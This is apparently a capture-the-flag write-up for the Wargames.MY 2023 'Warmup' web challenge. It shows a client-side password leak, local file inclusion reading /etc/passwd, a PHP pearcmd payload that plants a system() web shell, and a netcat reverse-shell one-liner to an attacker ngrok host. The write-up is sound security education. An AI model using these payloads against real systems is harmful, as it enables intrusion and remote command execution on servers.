



# Warmup

<div class="hidden">
    keywords: Wargames.MY CTF 2023, web, php, RCE, LFI
</div>

## Series

1. **Warmup**
2. [Status](../status/)
3. [Secret](../secret/)

## TL;DR

LFI to RCE via PHP PEARCMD

## Initial Analysis

We are presented with an input box that asks for a password.



The password checker is done on the client side via a minified javascript called
`script.min.js`.



We can then deobfuscate the script with <https://deobfuscate.io/> which manage
to detect the matching obfuscator and redirects us to <https://obf-io.deobfuscate.io/>.

## Passing The Password Checker

Looking at the deobfuscated script, we can see that the password is
`this_password_is_so_weak_i_can_crack_in_1_sec!` and if we give this password,
it would reach out to `/api/4aa22934982f984b8a0438b701e8dec8.php` endpoint
and hopefully give us the flag.

```js
/* ... */
document.querySelector('button').addEventListener("click", _0x3ac921 => {
  _0x3ac921.preventDefault();
  if (document.querySelector("input").value === "this_password_is_so_weak_i_can_crack_in_1_sec!") {
    fetch("/api/4aa22934982f984b8a0438b701e8dec8.php?x=flag_for_warmup.php").then(_0x5c12f5 => _0x5c12f5.text()).then(_0x509e6e => Swal.fire({
      'title': "Good job!",
      'html': _0x509e6e,
      'icon': "success"
    }));
  } else {
    Swal.fire({
      'title': "Oops...",
      'text': "wrong password",
      'icon': "error"
    });
  }
});
```

Unfortunately, there is no flag, but it mentioned about comment.


If we try to use `curl` to visit the endpoint, we could see there is an HTML
comment, but it is still not it.

```console
$ curl -s http://warmup.wargames.my/api/4aa22934982f984b8a0438b701e8dec8.php?x=flag_for_warmup.php
here's your flag <small>in comment</small> <!-- well, maybe not this comment -->
```

## LFI

Notice that the API endpoint accepts a filename for the parameter query `x`.
This almost screams LFI (local file inclusion) to me.

We can try to pass in `/etc/passwd` and we indeed get the file content

```console
$ curl -s http://warmup.wargames.my/api/4aa22934982f984b8a0438b701e8dec8.php?x=/etc/passwd
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
[...]
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
www-data:x:82:82:Linux User,,,:/home/www-data:/sbin/nologin
```

There are lots of filter implemented to deny us from accessing stuff like `procfs`
and wrappers such as `php://input`, `php://filter/convert`, `data://`, etc.

I was not able to bypass it but other participants managed to do it by:

- [double URL encoding (@Shen)](<https://hackmd.io/@Shenn/BkzLFNoIa>)
- [using zlib filter (@vicevirus)](https://vicevirus.github.io/posts/warmupweb-wgmy-2023/)

## LFI2RCE

In the end, I stumbled upon this [cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi-to-rce-via-php-pearcmd)
which allows us to get RCE with `PHP PEARCMD` which most probably satisfy the
prerequisite as most CTF challenges uses php image from docker registry.

This is the payload that I used:

```text
?+config-create+/&x=/usr/local/lib/php/pearcmd.php&/<?=system($_GET['c'])?>+/tmp/pir.php
```


Next, we can use the uploaded webshell to execute arbitrary command

```console
$ curl -s 'http://warmup.wargames.my/api/4aa22934982f984b8a0438b701e8dec8.php?x=/tmp/pir.php&c=id'
#PEAR_Config 0.9
a:12:{s:7:"php_dir";s:68:"/&x=/usr/local/lib/php/pearcmd.php&/uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)/pear/php";s:8:"data_dir";s:69:"/&x=/usr/local/lib/php/pearcmd.php&/uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)/pear/data";s:7:"www_dir";s:68:"/&x=/usr/local/lib/php/pearcmd.php&/uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)/pear/www";s:7:"cfg_dir";s:68:"/&x=/usr/local/lib/php/pearcmd.php&/uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)/pear/cfg";s:7:"ext_dir";s:68:"/&x=/usr/local/lib/php/pearcmd.php&/uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)/pear/ext";s:7:"doc_dir";s:69:"/&x=/usr/local/lib/php/pearcmd.php&/uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)/pear/docs";s:8:"test_dir";s:70:"/&x=/usr/local/lib/php/pearcmd.php&/uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)/pear/tests";s:9:"cache_dir";s:70:"/&x=/usr/local/lib/php/pearcmd.php&/uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)/pear/cache";s:12:"download_dir";s:73:"/&x=/usr/local/lib/php/pearcmd.php&/uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)/pear/download";s:8:"temp_dir";s:69:"/&x=/usr/local/lib/php/pearcmd.php&/uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)/pear/temp";s:7:"bin_dir";s:64:"/&x=/usr/local/lib/php/pearcmd.php&/uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)/pear";s:7:"man_dir";s:68:"/&x=/usr/local/lib/php/pearcmd.php&/uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)/pear/man";}
```

Since the output is duplicated many times, I tried to get reverse shell on the
remote server with this payload:

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $NGROK_IP $NGROK_PORT >/tmp/f
```




flag: `wgmy{1ca200caa85d3a8dcec7d660e7361f79}`

On the next part of the [post](../status/), we will see that we actually gain a shell inside a
kubernetes pod and try to poke around with the this challenge deployment.

## References

- <https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi-to-rce-via-php-pearcmd>
